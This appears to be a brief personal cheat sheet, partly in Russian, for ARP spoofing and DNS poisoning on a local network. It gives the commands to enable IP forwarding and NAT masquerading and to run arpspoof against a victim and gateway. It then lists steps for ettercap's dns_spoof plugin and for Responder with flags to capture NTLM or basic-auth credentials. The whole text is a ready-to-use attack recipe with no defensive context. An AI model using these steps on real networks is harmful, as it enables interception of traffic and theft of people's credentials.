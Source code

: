 # Arp spoofing

### Pre install

#### Turn on ip forward

```bash
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### Iptables

```bash
$ iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### start spoof

```jsx
$ arpspoof -i eth0 -t [victim ip gateway] -r [victim ip]
```



### Spoofing with DNS poisoning

1. В /etc/ettercap/etter.dns прописать в конце

* A 10.117.51.103 Где IP - IP kali

2. ettercap -g (Открывайте GUI).
3. Добавляешь gateway (10.117.51.1), добавляешь Victim (10.117.51.100)
4. Заходишь в Настройки > Plugins и включаешь плагин "dns\_spoof"
5. Поднимаешь Responder (флаги -wF для NTLM или -b для бейсика)
6. Начинаешь mitm атаку
